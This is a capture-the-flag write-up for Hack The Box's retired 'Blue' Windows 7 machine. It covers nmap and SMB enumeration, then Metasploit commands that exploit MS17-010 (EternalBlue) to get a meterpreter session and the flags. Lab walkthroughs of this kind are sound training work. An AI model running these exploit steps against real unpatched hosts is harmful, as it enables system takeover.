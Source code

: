 ```yaml
---
title: "Blue"
description: "An easy rated Windows machine that demonstrates the critical vulnerability in Windows SMBv1, also known as MS17-010 or 'EternalBlue'."
tags: ["htb", "writeup", "cve", "metasploit", "eternalblue", "ms17-010", "smb"]
pubDate: 2024-08-01
slug: "blue"
cover: "../../assets/images/Blue.png"
os: "windows"
htbMachineActive: false
---
```


## Table of Contents

## Reconnaisance

Start out by running `nmap` as always.

![nmap](../../assets/images/blue-nmap.webp)

This gives us quite a few TCP ports open but the 5 digit ones we don't really care about. We're looking at the other three, 135, 139 and 445. Ports 139 and 445 are typically where Windows SMB is running. We can see in the host script results from `nmap` that this is a Windows 7 Professional 7601 Service Pack 1 machine.

_Coming to this machine in 2024, it's well known what the attack vector is (just given the name and from word of mouth about this particular box). But assuming I didn't know, the next step would be to Google exploits for this specific OS and Service Pack. Doing that, you'd easily find MS17-010_

![google](../../assets/images/blue-windows7-google-results.png)

Here is a brief [explanation](https://www.varonis.com/blog/smb-port) of the differences in the SMB ports.

## Enumeration

We could really just jump right to [exploitation](#exploitation) at this point but I did this on "Guided Mode" with a friend that at the time was still learning and this path has you enumerate SMB, so we will here too.

Using `smbclient` (or `crackmapexec`), we can easily list out the SMB Shares.

![smbclient](../../assets/images/blue-smbclient-list-shares.webp)

That's really it for enumerating SMB. We can see there's 5 shares. Now to exploiting this.

## Exploitation

Knowing what we know about the attack vector, we can start up `metasploit`. After it starts up, we can search for the exploit `ms17-010` and we get some good looking results.

![msfconsole](../../assets/images/blue-msf-search.webp)

We `use 2` since we know our target machine is Windows 7 and it sets the target for us.

```bash
set RHOSTS 10.129.70.139
set LHOST tun0
exploit
```

![msf-options](../../assets/images/blue-eternalblue-exploit-msf.webp)

_Yes, I put `execute` instead of `exploit`. Stop laughing at me._

Just like that we have a meterpreter session.

## Foothold

We can use some nifty meterpreter commands to get some information.

![getuid](../../assets/images/blue-msf-getuid.webp)

At this point, we own the system. We are the King of the castle and have full access. We can get the user and root flags from here.

![msf-user](../../assets/images/blue-exfil-user-flag.webp)

![msf-root](../../assets/images/blue-exfil-root-flag.webp)

## Conclusion

This machine is fun to do. It's quick, especially with Metasploit, and easy. It demonstrates how severe this MS17-010, EternalBlue, vulnerability really was and the damage it could/can do. After this vulnerability was released by [The Shadow Brokers](https://darknetdiaries.com/episode/53/) (after being stolen from the NSA), multiple malwares were created. The first notable being [WannaCry](https://darknetdiaries.com/episode/73/) ([Wikipedia](https://en.wikipedia.org/wiki/WannaCry_ransomware_attack)). The next notable would be [NotPeta](https://darknetdiaries.com/episode/54/), a variant of the [Petya](<https://en.wikipedia.org/wiki/Petya_(malware_family)>) malware which has been attributed to Russian hacking groups.
